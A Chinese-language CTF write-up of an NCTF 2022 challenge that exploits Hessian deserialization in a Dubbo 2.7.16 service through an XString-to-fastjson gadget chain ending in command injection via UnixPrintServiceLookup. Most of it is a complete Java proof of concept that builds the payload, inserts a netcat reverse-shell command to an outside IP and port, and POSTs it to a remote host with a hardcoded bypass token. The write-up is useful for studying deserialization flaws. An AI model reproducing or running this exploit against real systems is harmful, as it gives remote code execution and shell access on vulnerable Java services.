



## 题目浅析

题目直接给出反序列化点



熟悉的hession反序列化，看一下依赖

```xml
<dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.dubbo</groupId>
            <artifactId>dubbo</artifactId>
            <version>2.7.16</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

    </dependencies>
```

很明显需要我们在dubbo环境下找一条利用链

对于hessian反序列化，其关键点是通过toString方法去触发后续利用

而如何去触发一个toString方法？不难想到经典的XString利用链

```
java.util.Hashtable#readObject
java.util.Hashtable#reconstitutionPut
java.lang.AbstractMap#equals
com.sun.org.apache.xpath.internal.objects.XString#equals
```

而dubbo中存在fastjson依赖，fastjson的toString是可以触发任意的getter方法的，最终我们找到一个可利用的类`sun.print.UnixPrintServiceLookup`，其get方法存在命令注入。需要注意的是该类存在于linux之中，windows环境下调试很难。

```java
private String[] getAllPrinterNamesBSD() {
    if (cmdIndex == -1) {
        cmdIndex = getBSDCommandIndex();
    }

    String[] var1 = execCmd(this.lpcAllCom[cmdIndex]);
    return var1 != null && var1.length != 0 ? var1 : null;
}
```

## 复现

poc基于ysomap

poc：

```java
package exp;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import com.alibaba.fastjson.JSONObject;

import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.http.HttpEntity;
import org.springframework.http.HttpHeaders;
import org.springframework.http.ResponseEntity;
import org.springframework.web.client.RestTemplate;
import sun.misc.Unsafe;

import sun.print.UnixPrintServiceLookup;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.URI;
import java.util.HashMap;


public class exp {
    public static void doPOST(byte[] obj) throws Exception{
        final String token = "eyJBbGliYW5hbmEiOiJXZWxDb21lVG9OQ1RGMjAwcCIsImlzcyI6IlB1cGkxIn0=.1.0";
        HttpHeaders requestHeaders = new HttpHeaders();
        requestHeaders.add("Token", token);
        URI url = new URI("http://1.117.171.248:8080/object/");
        HttpEntity<byte[]> requestEntity = new HttpEntity<>(obj,requestHeaders);
        RestTemplate restTemplate = new RestTemplate();
        ResponseEntity<String> res = restTemplate.postForEntity(url, requestEntity, String.class);
        System.out.println(res.getBody());
    }
    public static Object deserialize(byte[] obj) throws Exception {
        ByteArrayInputStream is = new ByteArrayInputStream(obj);
        Hessian2Input input = new Hessian2Input(is);
        return input.readObject();
    }
    public static  byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(bos);
        NoWriteReplaceSerializerFactory sf = new NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        output.setSerializerFactory(sf);
        output.writeObject(obj);
        output.close();
        return bos.toByteArray();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static HashMap makeMap (Object v1, Object v2 ) throws Exception{
        HashMap s = new HashMap();
        setFieldValue(s, "size", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void main(String[] args) throws Exception {
        Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Object unixPrintServiceLookup = unsafe.allocateInstance(UnixPrintServiceLookup.class);
        setFieldValue(unixPrintServiceLookup, "cmdIndex", 0);
        setFieldValue(unixPrintServiceLookup, "osname", "Snakin");
        String cmd = ";nc 1.117.171.248 39542 -e /bin/sh";
        setFieldValue(unixPrintServiceLookup, "lpcFirstCom", new String[]{cmd, cmd, cmd});

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("Snakin",unixPrintServiceLookup);

        XString xString = new XString("Snakin");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",jsonObject);
        map1.put("zZ",xString);
        map2.put("yy",xString);
        map2.put("zZ",jsonObject);

        Object o = makeMap(map1,map2);

        doPOST(serialize(o));

    }
}
```

我们知道，一般对于对象的序列化，如果对象对应的class没有对java.io.Serializable进行实现implement的话，是没办法序列化的，所以这里对输出流进行了设置，使其可以输出没有实现java.io.Serializable接口的对象

```java
package exp;

import com.alibaba.com.caucho.hessian.io.HessianProtocolException;
import com.alibaba.com.caucho.hessian.io.Serializer;
import com.alibaba.com.caucho.hessian.io.SerializerFactory;

import java.lang.reflect.Method;

public class NoWriteReplaceSerializerFactory extends SerializerFactory {

    @Override
    public com.alibaba.com.caucho.hessian.io.Serializer getSerializer (Class cl ) throws HessianProtocolException {
        Serializer serializer = super.getSerializer(cl);

        if(serializer != null && serializer.getClass().getName().equals("com.caucho.hessian.io.WriteReplaceSerializer")){
            try {
                Class<?> unsafe = Class.forName("com.caucho.hessian.io.UnsafeSerializer");
                Method create = unsafe.getMethod("create", Class.class);
                return (Serializer) create.invoke(unsafe, cl);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        return serializer;
    }
}
```

最后存在一个hash碰撞和签名验证，可以使用`WelComeToNCTF200p` 和`eyJBbGliYW5hbmEiOiJXZWxDb21lVG9OQ1RGMjAwcCIsImlzcyI6IlB1cGkxIn0=.1.0`这个token绕过



打远程




参考：

https://pupil857.github.io/2022/12/08/NCTF2022-%E5%87%BA%E9%A2%98%E5%B0%8F%E8%AE%B0/#more


